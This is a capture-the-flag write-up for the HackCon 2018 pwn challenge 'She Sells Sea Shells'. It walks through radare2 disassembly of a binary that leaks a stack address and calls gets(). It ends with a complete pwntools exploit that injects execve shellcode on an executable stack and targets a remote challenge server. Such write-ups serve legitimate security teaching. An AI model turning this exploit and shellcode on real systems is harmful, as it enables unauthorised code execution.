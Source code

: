 ```yaml
---
layout: writeup
ctf: HackCon'18
challenge: "She Sells Sea Shells"
author: Ring0p
date:   2018-08-17
categories: [pwn]
tags: [ ctf, challenge, programming, write-up ]
---
```

  - CTF NAME: [Hackcon 2018](https://hackcon.in/)
  - Category: PWN
  - Binary: [pwn2](http://ringr0p.github.io/binary/hackcon2018-bof)
  - Difficulty: Easy

This challenge was the fourth challenge (90 pts) of the pwn category in the [Hackcon CTF 2018](https://hackcon.in/).

Let's open the binary:

```
Welcome.

I have a small gift for you (no strings attached) 0x7ffcfd9a7b60

```
The first question is: what is the "small gift" that the program is giving us?
Let's open it in radare and try to figure it out:

```code
|	        0x00400676      55             push rbp                                                                                                      
|           0x00400677      4889e5         mov rbp, rsp                                                                                                          |           0x0040067a      4883ec50       sub rsp, 0x50               ; 'P'                                                                                     
|           0x0040067e      897dbc         mov dword [local_44h], edi    ; arg1                                                                                  |           0x00400681      488975b0       mov qword [local_50h], rsi    ; arg2                                                                                 
|           0x00400685      bf88074000     mov edi, str.Welcome.       ; 0x400788 ; "Welcome.\n"                                                                 |           0x0040068a      e891feffff     call sym.imp.puts           ;[2] ; int puts(const char *s)                                                           
|           0x0040068f      488d45c0       lea rax, [local_40h]                                                                                                  |           0x00400693      4889c6         mov rsi, rax
|           0x00400696      bf98074000     mov edi, str.I_have_a_small_gift_for_you__no_strings_attached___p
|           0x0040069b      b800000000     mov eax, 0                                                                                                            
|           0x004006a0      e88bfeffff     call sym.imp.printf         ;[2] ; int printf(const char *format)                                                     
|           0x004006a5      488b05a40920.  mov rax, qword sym.stdout    ; loc.stdout ; [0x601050:8]=0x7f59d30ee760 ; "`\xe7\x0e\xd3Y\x7f"                        
|           0x004006ac      4889c7         mov rdi, rax                                                                                                          
|           0x004006af      e8acfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006b4      488b05a50920.  mov rax, qword obj.stdin    ; [0x601060:8]=0x7f59d30eda00
|           0x004006bb      4889c7         mov rdi, rax                                                                                                          |           0x004006be      e89dfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           
|           0x004006c3      488d45c0       lea rax, [local_40h]                                                                                                  |           0x004006c7      4889c7         mov rdi, rax                                                                                              
|           0x004006ca      b800000000     mov eax, 0                                                                                                            |           0x004006cf      e87cfeffff     call sym.imp.gets           ;[4] ; char *gets(char *s)
|           0x004006d4      488b05750920.  mov rax, qword sym.stdout    ; loc.stdout ; [0x601050:8]=0x7f59d30ee760 ; "`\xe7\x0e\xd3Y\x7f"                        |           0x004006db      4889c7         mov rdi, rax
|           0x004006de      e87dfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006e3      488b05760920.  mov rax, qword obj.stdin    ; [0x601060:8]=0x7f59d30eda00                                                             |           0x004006ea      4889c7         mov rdi, rax
|           0x004006ed      e86efeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006f2      b800000000     mov eax, 0
|           0x004006f7      c9             leave                                                                                                                 \           0x004006f8   *  c3             ret                                                                                                    

```

Ok, we can see that at 0x0040068f the address of the buffer (local_40h) is placed in rax. Notice that it uses the
"LEA" instruction instead of MOV, because it wants to "Load Effective Address" of the buffer in the register.
Than it moves rax in rsi as second parameter of the printf function, as the x64 calling convetion wants (first parameter in rdi , then rsi, rdx, rcx and so on).

After that, it requests, as the other challenges, an input that is managed using the gets () function, without the lenght control.

Then we can control the return address because there are no canaries on the stack. Moreover the NX bit is 0, then the stack is executable.
It means that if we place a shellcode in the stack and redirect the program to that address (that "casually" is given by the program), the code will be executed.

Now we have everything to write the exploit, and this time I used PwnTools to help me in the communication with the remote server:

```python
from pwn import *

'''
Shellcode:

xor rdi, rdi
xor rsi, rsi
xor rdx, rdx
xor rax, rax
push rax
mov rbx, 68732f2f6e69622fH
push rbx
mov rdi, rsp
mov al, 59
syscall

'''
shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"

log.info ("Shellcode len %d bytes", len(shellcode))

rem = False

if rem:
    p = remote ("139.59.30.165", 8900)
else:
    p = process ("./bof")

a = p.recv(80)
addr = int(a[60:74], 16)
payload = shellcode + (72 - len(shellcode))*'a' + p64(addr)
p.sendline(payload)
p.interactive()
#print payload

```

And it works ;) !

![placeholder](/images/writeups/HackCon2018/she_sells_sea_shells/flag.png)
